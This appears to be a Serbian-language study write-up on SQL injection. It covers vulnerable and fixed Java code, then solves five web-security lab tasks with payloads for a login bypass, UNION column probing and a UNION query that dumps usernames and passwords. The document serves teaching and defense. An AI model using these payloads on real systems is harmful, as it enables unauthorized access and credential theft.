










# SQL Injection (SQLi)

## Šta je SQL injection?

SQL injection (SQLi) je klasa ranjivosti u veb aplikacijama koja nastaje kada korisnički unos nije pravilno obrađen i direktno se ubacuje u SQL upit.  
Na ovaj način napadač može da menja strukturu upita koji aplikacija šalje bazi podataka, čime dolazi do neautorizovanog pristupa informacijama ili manipulacije podacima.  

Primer ranjivog koda:

```java
String query = "SELECT * FROM users WHERE username = '" + input + "'";
Statement stmt = connection.createStatement();
ResultSet rs = stmt.executeQuery(query);
```

Ako korisnik unese vrednost `admin'--`, upit postaje:

```sql
SELECT * FROM users WHERE username = 'admin'--'
```

Ostatak uslova je zakomentarisán, što omogućava prijavu bez lozinke.


## Uticaj uspešnog SQL injection napada

Eksploatacija SQLi može imati ozbiljne posledice, među kojima su:

- **Neautorizovan pristup poverljivim podacima**  
  (npr. lozinke, brojevi kreditnih kartica, lični podaci korisnika).
- **Menjanje ili brisanje podataka** u bazi, što može trajno narušiti integritet sistema.  
- **Zaobilaženje autentikacije** i logovanje kao drugi korisnik, uključujući administratore.  
- **Ugradnja backdoora** i dugoročan pristup sistemu.  
- **Finansijska i reputaciona šteta** organizacije, uključujući pravne i regulatorne posledice.  
- U nekim slučajevima, **kompromitovanje celog servera** ili izvođenje **DoS napada**.


## Koje ranjivosti omogućavaju napad?

SQL injection uspeva zbog loših bezbednosnih praksi u kodu aplikacije, među kojima su najčešće:

1. **Direktna konkatenacija korisničkog unosa u SQL upit**.  
2. **Nedostatak validacije i filtriranja ulaza** (npr. dozvoljavanje `' OR 1=1--`).  
3. **Nedostatak principa najmanjih privilegija** – aplikacija koristi nalog baze sa prevelikim ovlašćenjima.  
4. **Nedostatak mehanizama za detekciju i logovanje sumnjivih upita**.  
5. **Neodgovarajuća konfiguracija baze** (npr. greške u porukama otkrivaju strukturu baze).  


## Kontramere i prevencija

Da bi se sprečili SQL injection napadi, potrebno je kombinovati više zaštitnih tehnika:

### 1. Korišćenje parametarskih upita (Prepared Statements)
Umesto konkatenacije, treba koristiti pripremljene upite:

```java
PreparedStatement stmt = connection.prepareStatement(
    "SELECT * FROM users WHERE username = ?"
);
stmt.setString(1, input);
ResultSet rs = stmt.executeQuery();
```

Ovim se obezbeđuje da se korisnički unos tretira isključivo kao podatak, a ne kao deo SQL komande.

### 2. Validacija i filtriranje ulaza
- Dozvoljavati samo očekivane karaktere i formate (whitelisting).  
- Odbijati nevalidan unos umesto pokušaja „čišćenja“.  

### 3. Princip najmanjih privilegija
- Aplikacija treba da koristi nalog baze sa samo onim privilegijama koje su neophodne (npr. bez `DROP`, `ALTER`, `GRANT`).  

# Zadaci

## **1. SQL injection vulnerability in WHERE clause allowing retrieval of hidden data**

SQL upit koji aplikacija izvršava prilikom dobavljanja proizvoda:

```SQL
SELECT * FROM products WHERE category = 'Lifestzle' AND released = 1
```

Koristeći Burp Suite, možemo detaljnije da vidimo kako izgleda  `GET` zahtev (slika 1.1):

`GET /filter?category=Lifestyle`


<p align='center'><i>slika 1.1 - GET request</i></p>

Ovo možemo da iskoristimo tako što ćemo modifikovati GET request na sledeći način (slika 1.2):

`GET /filter?category=Lifestyle'+OR+1=1--`

pri čemu bi SQL upit izgledao ovako:

```SQL
SELECT * FROM products WHERE category = 'Lifestyle' OR 1=1 -- AND released = 1
```

Ovim upitom dobavljamo sve proizvode određene kategorije zbog izraza `OR 1=1` koji je uvek tačan. Svi uslovi posle `--` postaju deo komentara i neće imati uticaj na rezultat.


<p align='center'><i>slika 1.2 - izmenjen GET request</i></p>

## **2. SQL injection vulnerability allowing login bypass**

Koristeći sličnu logiku iz prethodnog zadatka, ulogovaćemo se u sistem kao administrator bez potrebe za lozinkom.

Kao korisničko ime ćemo koristiti `administrator'--`

Ovim eliminišemo bilo koje uslove nakon provere korisničkog imena, što u ovom slučaju uključuje lozinku, omogućavajući nam pristup administratorskom profilu.


<p align='center'><i>slika 2.1 - unos korisničkog imena</i></p>
<br/>
<br/>
<br/>
<br/>


<p align='center'><i>slika 2.2 - uspešan pristup administratorskom profilu</i></p>

## **3. SQL injection UNION attack, determining the number of columns returned by the query**

Koristeći `UNION` operator, možemo odrediti broj kolona neke tabele koristeći osobinu ovog operatora da broj kolona u svakom query-u mora biti isti. U slučaju da broj kolona nije isti, zahtev je neuspešan nakon čega povećavamo broj kolona.

Na sličan način modifikujemo GET request kao i do sada:

`GET /filter?category=Accessories'+UNION+SELECT+NULL,NULL--`


<p align='center'><i>slika 3.1 - GET request sa 2 kolone</i></p>
<br/>
<br/>
<br/>
<br/>


<p align='center'><i>slika 3.2 - neuspešan zahtev</i></p>

Rezultat ovog zahteva je greška, što znači da naša tabela nema 2 kolone, te ćemo u sledećem zahtevu dodati još jednu kolonu

`GET /filter?category=Accessories'+UNION+SELECT+NULL,NULL,NULL--`


<p align='center'><i>slika 3.3 - GET request sa 3 kolone</i></p>
<br/>
<br/>
<br/>
<br/>


<p align='center'><i>slika 3.4 - GET request je uspešan</i></p>

Pošto je ovaj zahtev uspešan, to znači da smo pogodili broj kolona

## **4. SQL injection UNION attack, finding a column containing text**

Nakon što smo odredili broj kolona tabele, možemo da odredimo tip podataka u nekoj koloni. U ovom zadatku ćemo pronaći kolonu tekstualnog tipa

Izmenićemo GET zahtev iz prethodnog zadatka tako što ćemo umesto NULL, u jednoj od kolona koristiti neku tekstualnu vrednost

`GET /filter?category=Accessories'+UNION+SELECT+'text',NULL,NULL--`

Ako je zahtev uspešan, to znači da je prva kolona tekstualnog tipa, u suprotnom menjamo sledeću NULL vrednost sa tekstualnom vrednošću.


<p align='center'><i>slika 4.1 - GET request sa prvom tekstualnom kolonom</i></p>

## **5. SQL injection UNION attack, retrieving data from other tables**

Data nam je informacija da se tabela `USERS` sastoji iz 2 kolone: `username` i `password`.

Na osnovu prethodna 2 zadatka, možemo da konstruišemo sledeći GET request:

`GET /filter?category=Accessories'+UNION+SELECT+username,+password+FROM+users--`


<p align='center'><i>slika 5.1 - rezultat GET requesta</i></p>

Na ovaj način smo dobili kredencijale administratora aplikacija.


